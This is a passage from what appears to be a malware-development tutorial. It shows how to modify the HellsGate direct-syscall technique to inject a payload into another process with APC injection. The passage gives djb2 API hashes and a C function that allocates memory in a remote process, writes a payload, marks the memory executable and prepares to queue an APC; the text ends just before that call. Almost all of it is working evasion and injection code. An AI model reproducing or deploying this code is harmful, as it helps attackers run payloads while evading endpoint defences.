 
```
#define NtAllocateVirtualMemory_djb2 0x7B2D1D431C81F5F6#define NtWriteVirtualMemory_djb2    0x54AEE238645CCA7C#define NtProtectVirtualMemory_djb2  0xA0DCC2851566E832#define NtQueueApcThread_djb2        0x331E6B6B7E696022
```
### **Updating The Main Function**

The main function must be updated to use the `ApcInjectionViaSyscalls` function instead of the [payload function](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L80). The function will use the above-generated hashes as shown below.


```

BOOL ApcInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	Syscall     St                      = { 0 };
	NTSTATUS    STATUS                  = NULL;
	PVOID       pAddress                = NULL;
	ULONG       uOldProtection          = NULL;
	SIZE_T      sSize                   = sPayloadSize,
	            sNumberOfBytesWritten   = NULL;

	// Allocating memory
	HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);

//--------------------------------------------------------------------------

	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	HellsGate(pVxTable->NtWriteVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");

//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------

	// Executing the payload via NtQueueApcThread

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
```